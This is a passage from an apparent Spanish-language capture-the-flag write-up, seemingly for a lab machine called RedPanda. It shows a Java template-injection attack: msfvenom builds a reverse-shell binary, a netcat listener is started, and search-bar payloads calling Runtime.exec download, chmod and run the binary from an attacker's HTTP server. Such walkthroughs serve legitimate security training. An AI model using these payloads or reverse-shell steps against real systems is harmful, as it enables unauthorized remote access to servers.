 Yo no opte por este camino ya que la shell no respodia bien, ni con tratamiento.
{:.note title="Attention"}

***
### Segunda opccion.

En primer lugar, necesitaremos generar una shell inversa usando msfvenom. Recuerda sustituir 

el valor LHOST por la dirección IP de tu máquina de ataque.


```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.57 LPORT=443 -f elf > r.elf
```

Pon a la escucha el netcat yo siempre lo hago asi `nc -lvnp 443`.

Levanta un servidor HTTP en la misma ubicación que r.elf, utilizando `python3 -m http.server`. 

A continuación, envíe los siguientes comandos uno a uno sobre la barra de búsqueda del sitio web 

para transferir r.elf, cambiar el permiso y ejecutarlo.


```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://10.10.14.40:8000/r.elf")}
```


```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}
```
Ya que podemos darle permisos desde aqui es algo que vamos aprovechar.
{:.note}


```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}
```
Al esjecutar este one-liner se establecera la coneccion con el servido atraves de una `reverse-shell` 

por eso dejamos a la escucha netcat.
{:.note}


Y para seguir aprovecahando la vulnerabilidad de cara al futuro en la misma ubicacion decargate 

el `pspy64` y el `LinEnum`, podriamos usar.


![list](/assets/img/redpanda/Kali-2022-09-02-01-33-49.png){:.lead width="800" height="100" loading="lazy"}
Listo para enviar al servidor. 
{:.note}
